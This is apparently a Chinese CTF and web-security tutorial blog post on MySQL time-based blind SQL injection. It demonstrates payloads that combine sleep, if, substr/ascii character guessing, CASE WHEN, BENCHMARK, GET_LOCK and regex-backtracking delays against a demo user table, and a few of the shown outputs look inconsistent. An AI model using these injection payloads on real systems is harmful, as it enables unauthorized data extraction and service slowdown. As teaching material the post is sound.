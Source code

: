 ```yaml
---
title: 基于时间的盲注
date: 2021-05-15 15:00:00
tags: 
      - 网络安全
      - Web 安全
categories: 
- [网络安全, CTF]
- [网络安全, Web 安全]
---
```


时间盲注详解

<!--more-->

## 1. 基础知识
时间盲注指通过页面执行的时间来判断数据内容的注入方式，通常用于数据（包含逻辑型）不能返回到页面中的场景，无法利用页面回显判断数据内容，只能通过执行的时间来获取数据。

在执行语句的过程中，由于 sleep(duration) 函数的存在，保证是注入导致的延时，而不是业务正常处理导致的延时。

## 2. 原理演示
### 2.1 sleep 函数
- sleep(duration)
  - 睡眠时间为 duration 参数给定的秒数，然后返回0；若函数被中断，返回1。
  
```shell
mysql> select * from user;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
|  2 | admin1   | aaaa     |
|  3 | admin2   | aaaa     |
|  4 | admin3   | aaaa     |
+----+----------+----------+
4 row in set (0.00 sec)

mysql> select sleep(3);
+----------------------+
| sleep(3)             |
+----------------------+
| 0                    |
+----------------------+
1 row in set (3.00 sec)

mysql> select * from user where id = 1 and sleep(3);
Empty set (3.01 sec)

mysql> select * from user where id = 5 and sleep(3);
Empty set (0.00 sec)

```

sleep(3) 执行完成后返回 0，所以 `select * from user where id = 1 and sleep(3)`查询 0 条数据

and 的逻辑是如果 and 左侧表达式为假，则直接返回假，不再直接右侧表达式。所以当 id=5 查不到数据时，直接就会返回结果，这样就可以用布尔注入逻辑，根据执行的时长，来测试是否查到数据。

如果 and 逻辑换成 or，又会有变化。

```shell
mysql> select * from user where id = 1 or sleep(3);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)
```
or 逻辑是左侧若为真则不判断右侧表达式，所以 id=1 这条执行了 0.01 sec，接下来 id=2,3,4 这几条数据都会执行 sleep(3)，总共是 9.01sec。（可能不是所有版本都是这样的逻辑）

### 2.2 配合 if  条件触发 
- if(expr1, expr2, expr3)
  - 如果 expr1 是 True，则返回 expr2，否则返回 expr3
  - 返回值是数字值或字符串值
```shell
mysql> select * from user where id = 5 or if(username = 'admin', 1, 0);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)

mysql> select * from user where id = 1 and if(database()=' ', sleep(4), null);
```

### 2.3 截取函数
配合截取函数，能够判断猜测的某一位数据是否准确

单个字母爆破

```shell
mysql> select * from user where username='a' or if(substr((select username from user where id = 1), 1, 1) = 'a' , sleep(3), 0)  
```
- substring
  - substring(str, pos)
  - substring(str FROM pos)
  - substring(str, pos, len)
  - substring(str FROM pos FOR len)
- substr(str, start, length)
- mid(str, start, length)
  - str，必需
  - start，必需
  - length，可选
- substring_index(str, delim, count) 
  - str：被截取字符串
  - delim：关键字
  - count：关键字出现的次数 

实际上，使用正则表达式也能达到类似的效果,“^”表示从头开始匹配
```shell
mysql> select * from user where password rlike = '^1';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)

mysql> select * from user where password regexp '^12';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)
```

我们注意到，进行匹配时传入单个字符都需要引号，如果想不传入引号达到一样的效果，可以使用 ascii() 函数
```sql
select * from table where id = 1 and (if(substr(database(),1,1)=' ',sleep(4),null))

select * from table where id = 1 and (if(ascii(substr(database(),1,1))=100,sleep(4),null))
```

### 2.4 配合 select case when 条件触发
SQL CASE 表达式是一种通用的条件表达式，类似于其他语言中的  if...else... 语句
> CASE WHEN condition THEN result
> [WHEN ...]
> [ELSE result]
> END

先来一个使用举例：
```shell
mysql> select case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  aaa                                                    |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (0.00sec)
```
可以与 sleep 或者其他形式结合
```sql
mysql> select case when username = 'admin' THEN (sleep(3)) ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  0                                                      |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (3.01sec)
```

### 2.5 除 sleep 之外的延时
- BENCHMARK(count, expr)
  - 重复 count 次执行表达式 expr。
  - 可以被用于计算 MySQL 处理表达式的速度
  - 结果值通常为0
- 笛卡尔积
  - SELECT count(*) FROM information_schema.columns A, information_schema.colums B, information_schema.colums C;
  - 通过复杂的运算达到延时
- GET_LOCK(str, timeout)
  - 使用字符串 str 给定的名字得到一个锁，超时为 timeout 秒
  - 局限：当前会话不会生效，只有新会话开启，并且保持长连接（ mysql_pconnect函数来连接数据库），才能生效
session 1
```shell
mysql> select get_lock('karma',1);
+---------------------+
| get_lock('karma',1) |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)
```
session 2
```shell
mysql> select get_lock('karma',10);
+----------------------+
| get_lock('karma',10) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (10.00 sec)
```

- RLIKE
  - 通过 rpad 或 repeat 构造长字符串，加以计算量打的 pattern，通过 repeat 的参数可以控制延时长短
```shell
mysql> select concat (rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'

*****
1 row in set (0.51 sec)
```

————————————————
- [浅谈SQL盲注测试方法解析与技巧](https://www.freebuf.com/articles/web/175049.html)
- [MySQL中RLIKE运算符的使用详解](https://www.php.cn/mysql-tutorials-417450.html)
- [Mysql时间盲注手工注入详解](https://www.jianshu.com/p/0d607589e3ad)